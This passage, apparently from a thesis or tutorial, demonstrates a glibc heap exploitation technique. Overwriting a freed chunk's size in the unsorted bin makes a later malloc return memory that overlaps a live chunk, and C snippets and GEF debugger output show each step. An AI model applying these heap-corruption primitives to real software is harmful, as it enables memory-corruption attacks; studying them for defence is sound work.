 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\begin{document}
In the next step, like we did before, We have to change the chunk size by overflow:

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}

As you remember, currently , p2 located at the \ub{} , also, we change the size of p2, so, when the heap manager receives an allocation request it return p2, as the result, it have overlap with previous chunks:

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef p p4
$11 = (intptr_t *) 0x555555559110
gef p p2
$12 = (intptr_t *) 0x555555559110
gef p p1
$13 = (intptr_t *) 0x555555559010
gef p p3
$14 = (intptr_t *) 0x555555559210
\end{lstlisting}

As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application.Now the p3 and p4 have overlap, so , write data on one of them could overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system can use mmap in this scenario. Take consider the following code:
\end{document}
